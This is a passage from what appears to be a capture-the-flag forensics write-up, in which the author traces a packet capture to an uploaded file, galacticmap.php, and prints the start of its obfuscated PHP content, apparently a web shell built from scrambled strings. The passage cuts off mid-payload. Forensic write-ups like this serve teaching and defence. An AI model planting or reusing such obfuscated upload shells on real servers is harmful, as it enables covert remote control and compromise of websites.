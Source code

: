 ![Roten_pdf.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Forensics%20images/Roten_pdf.png)
- But one of the files contained PHP code, and the attacker uploaded it with the name `galacticmap.php`.

![Roten_shell.png](https://github.com/Sec0gh/CTF/blob/main/Cyber%20Apocalypse%202023%20-%20The%20Cursed%20Mission/Forensics%20images/Roten_shell.png)
- I downloaded this file with the packet number `1929`.
```bash
$ cat map-update.php                                                 
-----------------------------310973569542634246533468492466
Content-Disposition: form-data; name="uploaded_file"; filename="galacticmap.php"
Content-Type: application/x-php

<?php 
$pPziZoJiMpcu = 82; 
$liGBOKxsOGMz = array(); 
$iyzQ5h8qf6 = "" ; 
$iyzQ5h8qf6 .= "<nnyo ea\$px-aloerl0=e r\$0' weme Su rgsr s\"eu>\"e'Er= elmi)y ]_'t>bde e e  =p   xt\" ?ltps vdfic-xetrmsx'l0em0  o\"oc&'t [r\"e _e;eV.ncxm'vToil   ,F y"; 
```
